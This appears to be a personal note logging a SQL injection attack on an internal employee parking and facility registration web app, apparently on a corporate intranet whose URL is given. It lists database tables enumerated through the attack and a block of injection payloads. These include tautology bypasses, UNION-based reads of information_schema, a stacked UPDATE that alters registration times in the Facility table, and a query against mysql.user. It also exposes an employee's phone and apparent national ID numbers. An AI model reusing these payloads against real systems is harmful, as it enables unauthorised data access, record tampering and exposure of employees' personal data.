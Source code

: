 | ID                | Name   | Parking Area | regtime            |
|-------------------+--------+--------------+--------------------|
| Dependent_Reguser | userid |            5 | 1900/1/3           |
| facility_list     | userid |            5 | 1900/1/3           |
| Shuttlecock       | userid |            5 | 1900/1/3           |
| mentalhealth      | userid |            5 | 1900/1/3           |
| regHR             | userid |            5 | 1900/1/3           |
| Survey            | userid |            5 | 1900/1/3           |
| S_Reguser         | userid |            5 | 1900/1/3           |
| Combo_Reguser     | userid |            5 | 1900/1/3           |
| Question          | userid |            5 | 1900/1/3           |
| person            | userid |            5 | 1900/1/3           |
| L_Reguser         | userid |            5 | 1900/1/3           |
| HL_Reguser        | userid |            5 | 1900/1/3           |
| free_2014         | userid |            5 | 1900/1/3           |
| exam              | userid |            5 | 1900/1/3           |
| A_reguser         | userid |            5 | 1900/1/3           |
| friend            | userid |            5 | 1900/1/3           |
| Product           | userid |            5 | 1900/1/3           |
| Tea_reguser       | userid |            5 | 1900/1/3           |
| QualityDay        | userid |            5 | 1900/1/3           |
| photo_library     | userid |            5 | 1900/1/3           |
| Sustainability    | userid |            5 | 1900/1/3           |
| Photo_Result      | userid |            5 | 1900/1/3           |
| car_info          | userid |            5 | 1900/1/3           |
| QualityDay_List   | userid |            5 | 1900/1/3           |
| reguser           | userid |            5 | 1900/1/3           |
| teched            | userid |            5 | 1900/1/3           |
| Dkmo_list         | userID |            5 | 1900/1/3           |
| BYD_reguser       | userid |            5 | 1900/1/3           |
| BYD_reg           | userid |            5 | 1900/1/3           |
| tb_lunch          | userid |            5 | 1900/1/3           |
| book_info         | userid |            5 | 1900/1/3           |
| C_reguser         | userid |            5 | 1900/1/3           |
| Travler           | userid |            5 | 1900/1/3           |
| ACI_reg           | userid |            5 | 1900/1/3           |
| news_result       | userid |            5 | 1900/1/3           |
| event_reg         | userid |            5 | 1900/1/3           |
| fin               | userid |            5 | 1900/1/3           |
| result            | userid |            5 | 1900/1/3           |
| FASTtrack         | userid |            5 | 1900/1/3           |
| Facility          | userid |            5 | 1900/1/3           |
| Video             | userid |            5 | 1900/1/3           |
| ad_class          | userid |            5 | 1900/1/3           |
| Employee_list     | userid |            5 | 1900/1/3           |
| UserSheet         | UserId |            5 | 1900/1/3           |
| Facility_Result   | userid |            5 | 1900/1/3           |
| BYD               | UserID |            5 | 1900/1/3           |
| Badges            | userid |            5 | 1900/1/3           |
| T_Know            | userid |            5 | 1900/1/3           |
| Developer         | userid |            5 | 1900/1/3           |
| hands             | userid |            5 | 1900/1/3           |
| T_result          | userid |            5 | 1900/1/3           |
| parking_permit    | userid |            5 | 1900/1/3           |
| Employee          | userid |            5 | 1900/1/3           |
| free              | userid |            5 | 1900/1/3           |
| Rope              | userid |            5 | 1900/1/3           |
| ad_class2         | userid |            5 | 1900/1/3           |


| Facility | id           | 5 | 1900/1/3 |
| Facility | userid       | 5 | 1900/1/3 |
| Facility | username     | 5 | 1900/1/3 |
| Facility | Mobile       | 5 | 1900/1/3 |
| Facility | Ext          | 5 | 1900/1/3 |
| Facility | ownership    | 5 | 1900/1/3 |
| Facility | relationship | 5 | 1900/1/3 |
| Facility | regtime      | 5 | 1900/1/3 |
| Facility | logintime    | 5 | 1900/1/3 |
| Facility | isdelete     | 5 | 1900/1/3 |
| Facility | ParkingArea  |   |          |

http://slc.pvgl.sap.corp:1080/register/facility/employee/index.asp

#+BEGIN_SRC sql
  insert into <TABLE>
          ('UserID', 'L_Name', 'Mobile', 'Ext', 'ParkingArea')
   values ('I046147', 'VINCENT', '13761506775', '320684198405243176',
   '\\' SELECT PVG06')

   I074192' or UserID = 'I068150s
   1' or '1' = '1

   i046147' or UserId = (Update employee set L_Name = 'Vince' where UserID = 'i046147') or '1' = '1;

   select * from employee where UserId like "%&UserID%"

   select * from employee where UserId like '%I074193%' or UserID = 'i074192' /* %'

   I074193' or UserID = 'i074192' -- 

   I074192' UNION ALL select 1, null, null from information_schema.columns --

   I074192' UNION ALL select 1, 'a', 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 --

   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'Facility'--
   
   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'parking_permit' --

   I074192' UNION ALL select 1, table_name, column_name, 'c', 'd', 'e', 'f', 2, 3, 4, 5 from information_schema.columns where table_name = 'C_reguser' --
   
   I074192' UNION ALL select 1, userid, username, 'c', 'd', 'e', 'f', regtime, 3, 4, 5 from Facility where userid='I046147'--

   I074192'; Update Facility set logintime = '2015/1/23 11:27:11', regtime = '2015/1/23 11:28:30', ParkingArea='' where userid = 'i046147' --

   I074192' UNION ALL select 1, Host, 'b', 'c', 'd', 'e', 'f', 2, 3, 4, 5 from mysql.user --
#+END_SRC
